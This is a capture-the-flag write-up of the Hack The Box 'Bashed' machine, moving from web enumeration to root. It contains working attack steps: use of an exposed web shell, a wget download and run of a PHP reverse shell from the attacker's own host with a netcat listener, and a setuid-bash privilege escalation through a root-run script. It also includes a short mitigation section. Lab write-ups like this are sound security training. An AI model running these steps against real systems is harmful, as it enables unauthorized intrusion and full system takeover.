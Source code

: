 # Bashed

```
kali@kali:~/htb/Bashed$ sudo nmap -sV -sC 10.129.88.188
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-28 10:04 EST
Nmap scan report for 10.129.88.188
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

Ok, the webpage leads to a blog about PHPbashing. Nothing really to click, except a blog post.

I decide to run wfuzz:

```
kali@kali:~/htb/Bashed$ sudo wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.88.188/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.88.188/FUZZ
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                            
===================================================================

000000001:   200        161 L    397 W    7743 Ch     "# directory-list-2.3-medium.txt"                                  
000000003:   200        161 L    397 W    7743 Ch     "# Copyright 2007 James Fisher"                                    
000000007:   200        161 L    397 W    7743 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"  
000000014:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"                                            
000000016:   200        19 L     88 W     1566 Ch     "images"                                                           
000000012:   200        161 L    397 W    7743 Ch     "# on atleast 2 different hosts"                                   
000000013:   200        161 L    397 W    7743 Ch     "#"                                                                
000000011:   200        161 L    397 W    7743 Ch     "# Priority ordered case sensative list, where entries were found"
000000010:   200        161 L    397 W    7743 Ch     "#"                                                                
000000008:   200        161 L    397 W    7743 Ch     "# or send a letter to Creative Commons, 171 Second Street,"       
000000005:   200        161 L    397 W    7743 Ch     "# This work is licensed under the Creative Commons"               
000000006:   200        161 L    397 W    7743 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"    
000000002:   200        161 L    397 W    7743 Ch     "#"                                                                
000000009:   200        161 L    397 W    7743 Ch     "# Suite 300, San Francisco, California, 94105, USA."              
000000004:   200        161 L    397 W    7743 Ch     "#"                                                                
000000164:   200        1 L      1 W      14 Ch       "uploads"                                                          
000000338:   200        16 L     59 W     941 Ch      "php"                                                              
000000550:   200        20 L     96 W     1760 Ch     "css"                                                              
000000834:   200        17 L     69 W     1150 Ch     "dev"                                                              
000000953:   200        26 L     165 W    3167 Ch     "js"                                                               
000002771:   200        21 L     111 W    2097 Ch     "fonts"                                                            
000045240:   200        161 L    397 W    7743 Ch     "http://10.129.88.188/"

```

/uploads/ is empty, but /php/ contains a directory that shows sendMail.php

Which is completely empty. I try curling, burpsuite. But it is completely empty. So I decide to check out the PHPbash talked about in the blog.

`phpbash helps a lot with pentesting. I have tested it on multiple different servers and it was very useful. I actually developed it on this exact server!`

So phpbash is a pentesting tool, developed on this exact server. Well. There is a /dev/ directory here.

![](images/1.png)

So I try out phpbash.php:

```
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

I’ll create a reverse shell, as I know more about the capabilities of the tty than phpbash. I try python, netcat, bash. But at the end I just decide to upload a php reverse shell.

```
kali@kali:~/htb/Bashed$ cp /usr/share/webshells/php/php-reverse-shell.php .
kali@kali:~/htb/Bashed$ sudo vim php-reverse-shell.php
kali@kali:~/htb/Bashed$ sudo python -m SimpleHTTPServer 8000

```

And then on the website:

```
www-data@bashed:/tmp# wget 10.10.14.52:8000/php-reverse-shell.php

--2021-01-28 13:52:51-- http://10.10.14.52:8000/php-reverse-shell.php
Connecting to 10.10.14.52:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

0K ..... 100% 445M=0s

2021-01-28 13:52:51 (445 MB/s) - 'php-reverse-shell.php' saved [5493/5493]
www-data@bashed:/tmp# php php-reverse-shell.php
```

And of course on the listener:

```
kali@kali:~/htb/Bashed$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.88.188 34008
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:53:03 up  6:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

I am slightly sad. I’ve had the ip 10.10.14.21 for well over a week. And now suddenly I am 10.10.14.52. And I’ve gotten so used to 21. Anyways. I improve the shell. Read more here: https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/ 


So I’m gonna try and log in as scriptmanager, and see what permissions that account has.

```
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$
scriptmanager@bashed:/$ whoami
scriptmanager
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
```
Aha, so as scriptmanager we can now enter the scripts directory. I also checked /home/scriptmanager/.bash_history to see if there was anything good, but it was empty. 

Let’s look at this script:

```
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.txt ; echo
testing 123!
scriptmanager@bashed:/scripts$
```

So it simply opens a file and writes to it. Let’s check the permissions:

```
scriptmanager@bashed:/scripts$ ls -la 
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jan 28 14:14 test.txt
```

So the script is owned by scriptmanager, but the file is owned by root. We can also see the time discrepancy between the python file and the text file. 

The text file is actually last edited right now. So the python script is probably being ran constantly.

I edit the file with nano. I normally use vim, but it’s not installed. BTW. If the target machine has vim, you may be able to spawn a root shell with that, look more here: https://gtfobins.github.io/gtfobins/vim/ 

```
import os  

os.system("chmod 4755 /bin/bash")
```

This simply changes the permissions of /bin/bash. 4755 means that everyone can execute it, more here: https://chmodcommand.com/chmod-4755/ 

ctrl+X to exit nano, Y to write, and enter to have the same name.

```
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```

-p means that bash will run in privileged mode.


## Comparing myself to the official writeup:

The official writeup uses the same methods, except it runs another reverse shell from the python program instead of changing the bash permissions. 


## How to stop this exploit:

The web user should not be able to access sripts, especially when you give an end-user access to that user by default with the phpbash dev site. The automatic script execution could also have an additional check. Maybe do a md5sum of the program, and only run it if the md5sum matches.


